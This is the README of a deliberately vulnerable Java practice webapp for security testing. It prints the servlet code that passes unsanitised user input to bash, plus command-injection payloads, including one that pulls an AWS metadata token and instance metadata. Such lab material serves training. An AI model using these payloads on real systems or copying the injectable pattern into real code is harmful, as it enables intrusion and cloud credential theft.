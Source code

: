 # Vulnerable Java Webapp

A simple java based webapp which contains a code injection vulnerability. 
This is a vulnerable application for use in security testing and practice ONLY. Do not deploy anywhere in production!
 

## Table of Contents

- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
- [Exploitation](#license)
- [Vulnerability](#vulnerability)

## Features

I needed a simple app for security testing in AWS, in Java!
The premise is a simple "is it up" type app, which executes a ping in the background.

- Simple standalone application
- Uses jetty for simple setup
- Includes command injection vulnerability
- Can be leverged to SSRF in an AWS environment, for example to gather data from the AWS metadata service
- appspec and buildspec installedif you'd like to deploy using a code pipeline in AWS
![Screenshot](screenshot.png)
![Screenshot2](screenshot2.png)


## Installation

Clone the repo and ensure you have maven installed.
If deploying in AWS I recommend deploying to an Amazon Linux instance (this is where I tested it), but Ubuntu should work too.


## Usage

Either use the app as standalone with `mvn jetty:run` or deploy as part of an AWS code pipeline.

Note that AWS requires some specific syntax to invoke long running commands as part of a deployment, hence the
`mvn jetty:run> /dev/null 2> /dev/null < /dev/null &` in `start.sh`

## Exploitation

A couple of ways to exploit the app:

**Code execution:**

```google.com && whoami```


**SSRF exploit:**

```google.com && TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` && curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/```



## Vulnerabilty 
The vulnerable code is within CommandExecutorServlet.java, where we accept unsantized user input:

```
if (command != null && !command.isEmpty()) {
  // Modify the command to include "ping -c 4" and the user-provided command
  String fullCommand = "ping -c 4 " + command;

  // Execute the command (handle security and sanitization here)
  String result = executeCommand(fullCommand);
```

And then pass it to bash in executeCommand:

```Process process = new ProcessBuilder("/bin/bash", "-c", command).start();```


